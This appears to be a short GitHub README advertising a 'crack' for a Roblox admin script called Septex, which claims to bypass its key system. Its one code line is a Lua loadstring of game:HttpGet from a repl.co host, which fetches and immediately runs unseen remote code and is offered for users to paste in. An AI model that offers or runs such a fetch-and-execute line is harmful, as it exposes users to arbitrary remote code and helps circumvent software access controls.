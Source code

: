 
# sustex
![lol](https://i.imgflip.com/3bovka.png?a464880)
I'm sure you read the description correctly. That's right, a **Septex Admin crack!**
No more annoying key system, just run the script and it will bypass the key system flawlessly.

```lua
loadstring(game:HttpGet("crackserver.mrelxs.repl.co/septex/client", true))()
```
Enjoy your new free admin script. If you want to check the code of this, see crackserver.mrelxs.repl.co/septex/client
